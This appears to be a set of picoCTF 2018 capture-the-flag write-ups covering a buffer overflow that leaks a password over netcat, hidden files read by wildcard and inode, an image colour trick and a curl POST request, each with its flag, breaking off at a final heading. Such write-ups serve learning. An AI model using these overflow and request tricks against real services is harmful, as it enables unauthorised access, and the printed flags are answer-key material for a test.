 
## ---leak-me---
If there is no new line character in the name, it will print password if name is greater than 256 characters (including those concatenated on with strcat(name, “,\nPlease Enter the Password.”);). 257 - 29 = 228. So minimum name length is 228, but can be anything over it.
```
$ python -c 'print "A"*300' | nc 2018shell.picoctf.com 23685
What is your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,a_reAllY_s3cuRe_p4s$word_a28d9d

Incorrect Password!
$ nc 2018shell.picoctf.com 23685
What is your name?
loans
Hello loans,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_a28d9d
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_ee6111c9}
```

## ---now you don't---
I used Aseprite. Use color dropper on image then color exchange background color with any non-red color. The flag is written in a red very close to the original background color, so the exchange will make the flag readable.

picoCTF{n0w_y0u_533_m3}

## ---you can't see me---
Q: '...reading transmission... Y.O.U. .C.A.N.'.T. .S.E.E. .M.E.  ...transmission ended...' Maybe something lies in /problems/you-can-t-see-me_4_8bd1412e56df49a3c3757ebeb7ead77f.    

Use tab autocomplete

```$ cat .\ \```

OR a wildcard

```$ cat .*```

OR inodes
```
$ ls -ia
15622214 .  15622219 .    13824001 ..
$ find -inum "15622219" -exec cat {} \;
```

picoCTF{j0hn_c3na_paparapaaaaaaa_paparapaaaaaa_22f627d9}

## ---Buttons---
Q:  There is a website running at http://2018shell.picoctf.com:44730 (link). Try to see if you can push their buttons.

First button is a POST request, second is a GET request using A HREF. The solution is to make a POST request to the button url

```
$ curl -X POST http://2018shell.picoctf.com:44730/button2.php
Well done, your flag is: picoCTF{button_button_whose_got_the_button_dfe8b73c}
```

## ---Ext Super Magic---
```